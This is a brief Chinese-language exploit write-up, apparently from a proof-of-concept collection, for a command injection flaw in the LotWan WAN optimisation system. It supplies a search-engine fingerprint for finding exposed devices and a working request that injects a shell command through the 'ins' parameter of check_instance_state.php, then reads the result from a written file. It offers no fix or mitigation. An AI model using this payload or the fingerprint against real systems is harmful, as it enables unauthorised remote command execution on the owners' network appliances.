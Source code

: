 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123637053.png)

存在漏洞的文件为

```php
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1635943074087-b483f989-38e9-43fd-8e94-6de93605d4a7.png)



若有收获，就点个赞吧